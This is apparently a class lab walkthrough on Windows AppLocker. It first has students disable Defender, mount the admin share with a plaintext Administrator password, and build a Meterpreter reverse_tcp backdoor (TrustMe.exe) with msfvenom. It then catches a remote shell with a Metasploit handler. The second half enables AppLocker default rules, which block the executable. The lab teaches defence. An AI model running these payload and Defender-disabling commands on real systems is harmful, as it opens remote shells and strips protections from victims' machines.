# AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Ubuntu** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of Windows **Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

Next, run the following command in the **Powershell** terminal:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is ==**Ok**==, it means **Defender** is not running.

Let’s get started by opening a **Kali** instance.

Alternatively, you can click on the **Kali** icon in the taskbar.

Let's start by getting root access in our terminal.

`sudo su -`

Next, lets run the following command to get our IP address:

`ifconfig`

==**Please note the IP address of Y-O-U-R Ethernet adapter.**==



Please note that my adapter is called **"eth0"** and my IP address is **"10.10.1.117"** Your IP Address and adapter name may be different.

First, we need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //10.10.1.209/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

Note: The IP address of `10.10.1.209` does not need to be changed in this command.

If you see the following error, it means that the device is already mounted.



If this is the case, just run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 
-f exe -o /mnt/windows-share/TrustMe.exe</pre>

Now let's start the **Metasploit Handler**.  First, open a new Kali instance. The easiest way to do this is by clickin on the Kali icon in the taskbar.

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>



The Metasploit Handler successfully ran if the terminal now starts with `msf6 >`

Next, let's run the following:
<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

Remember, your IP will be different!

<pre>exploit</pre>

It should look like this:



Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Do this by clicking on the icon in the taskbar.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>



Back at your Kali terminal, you should now have a metasploit session!



Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.



Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.



Scroll down in the right hand pane. You will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.



Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”



This should generate a subset of rules for each group.  It should look similar to how it does below: 



For simplicity, you can click the next set of rules from the left panel as seen above.

Next, we need to enforce the rules:

To do this you will need to select AppLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  



This will bring up the Services App.  Please select that and then double-click “Application Identity.”



Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.



Next, open a command prompt and run gpupdate to force the policy change.

<pre>gpupdate /force</pre>

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little white user icon:

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

You will see that most of the .exe files will generate an error.

You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.

